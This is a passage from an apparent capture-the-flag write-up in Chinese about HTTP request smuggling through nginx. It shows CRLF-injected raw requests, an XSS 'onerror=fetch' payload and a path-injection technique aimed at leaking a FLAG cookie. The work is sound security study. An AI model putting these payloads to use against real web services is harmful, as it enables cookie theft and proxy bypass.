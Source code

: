 即构造expr为

```
 HTTP/1.1
Remote-Addr: 172.22.0.4
Remote-Host: 172.22.0.4
Connection: upgrade
Host: nginx

POST /api HTTP/1.1
Host: nginx
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

expr=
```

但这样是不行的，因为expr是url中的参数，会被识别为query，请求包会变成

```
GET /api?expr=123%20HTTP/1.1%0D%0ARemote-Addr%3A%20172.22.0.4%0D%0ARemote-Host%3A%20172.22.0.4%0D%0AConnection%3A%20upgrade%0D%0AHost%3A%20nginx%0D%0A%0D%0APOST%20/api%20HTTP/1.1%0D%0AHost%3A%20nginx%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%20300%0D%0A%0D%0Aexpr%3D HTTP/1.1
Remote-Addr: 172.22.0.4
Remote-Host: 172.22.0.4
Connection: upgrade
Host: localhost
X-Real-Ip: 172.22.0.1
X-Forwarded-For: 172.22.0.1
X-Forwarded-Proto: http
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Cookie: FLAG=flag{test}

```

所以是没有办法通过构造expr来进行请求走私的。

但是我们可以控制的地方并不只有expr，事实上，整个请求（除了几个header）都是我们可以控制的，因为虽然我们只能report一个expr参数，但我们可以在xss的时候执行fetch，可以构造

```
<img src=1 onerror=fetch('http://nginx:3000/xxx')>
```

注意到后端处理逻辑对应的请求handler是default，也就是说实际上请求的path是啥都行，所以可以在path这里注入，构造path为

```
xxx HTTP/1.1
Host: nginx

POST /api HTTP/1.1
Host: nginx
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

expr=123
```
